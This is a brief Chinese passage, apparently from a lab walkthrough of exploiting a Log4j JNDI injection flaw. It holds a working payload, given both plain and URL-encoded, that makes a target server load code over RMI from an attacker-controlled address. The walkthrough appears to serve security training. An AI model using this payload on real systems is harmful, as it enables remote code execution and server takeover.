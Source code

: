 ![Alt text](img/rmi.png)

生成 rmi ：`rmi://192.168.166.3:1099/szaibg`

利用靶机地址去访问攻击机的 JNDI 服务

将 payload `${jndi:rmi://192.168.166.3:1099/szaibg}`进行 url 编码：`%24%7Bjndi%3Armi%3A%2F%2F192.168.166.3%3A1099%2Fszaibg%7D`

访问

![Alt text](img/url.png)
